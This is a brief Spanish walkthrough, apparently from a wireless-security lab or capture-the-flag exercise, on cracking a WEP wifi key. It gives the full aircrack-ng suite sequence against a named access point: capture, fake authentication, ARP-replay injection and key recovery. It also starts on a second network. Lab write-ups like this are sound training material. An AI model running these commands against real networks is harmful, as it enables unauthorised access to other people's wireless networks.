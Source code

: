   

Atacamos por la MAC con el siguiente comando (documentar).

  

besside-ng -c 3  F0:9F:C2:71:22:11 -b wlan4 -v

  

Otra opción es usar estos comandos en este orden y a la vez.

  

Captura datos en un archivo, este archivo es la entrada para que aircrack-ng descifre la contraseña.

sudo airodump-ng -c 3 --bssid F0:9F:C2:71:22:11 -w wifi-old wlan0mon

  

Para generar algunos datos adicionales podemos lanzar una autenticación falsa al AP (al mismo tiempo)

aireplay-ng -1 3600 -q 10 -a F0:9F:C2:71:22:11 wlan0mon

  

Y generar algo de tráfico lanzando un ataque de repetición de solicitud ARP (al mismo tiempo)

aireplay-ng --arpreplay -b F0:9F:C2:71:22:11 -h BA:49:A9:53:A2:7C wlan0mon

  

Descifrar la contraseña con los datos capturados en un comando anterior. (al mismo tiempo)

sudo aircrack-ng wifi-old-01.cap

  

y nos dará la clave 11:bb:33:cd:55

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcbep8gQAqWxkb1hkJtzijUzePqFiuMDtEgqQWytbbtopt5H4tbeq5ZspWdKEJEVKZ2pWknSCxU7Cp-0ai5y1xnzxr7MgMfqDLGBVa_FoZmbKb7kbJ9MfcwU1rGFYgh1auC3yIhTg?key=guR6kJWpYbMi9eVMXwKptnIU)

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcUzzKvagU0HeVq_Fi5LrslSVv14rAjpgWzERc1puYX8FuLHhCxATR6nycbcANWcGnhGelLuXEzLxjO0CmVpanMgXuj0n2g1UkmGvwwKvYCzD0n-qKHcx4_8mU4kbzHWYwN_yxTWg?key=guR6kJWpYbMi9eVMXwKptnIU)

  

Creamos el nuevo archivo de configuración en este caso lo llamamos old_wifi.conf

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfclq7NgFP1LomzcDLZmSeexQfNeKIee1moy-6LDXc4Lunfe9b3gzYROK97i_KtbN12jYUtA_qaSlsAdZoIGxBPSPFlHnBYzOitn15JcTGkML1tJJNglFWELOe7eFkw8Lxsgne6?key=guR6kJWpYbMi9eVMXwKptnIU)

  

# ¿Cual es la contraseña del wifi móvil?

  

Monitoreamos el tráfico con: 

  

airodump-ng wlan0mon

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfy6sgqM-tRlR1Y4XgyCQdyq1AB4iVaCnnGvjY1ys9XzXjCmBRlFJ7I5s5jf-7hv57J7sxVESGtDCC0nrgXi8StWe0KXp_bHCMRxi8pygDtKg-onwqnXAyvmDiw5Qo44knLAHtZ6w?key=guR6kJWpYbMi9eVMXwKptnIU)

  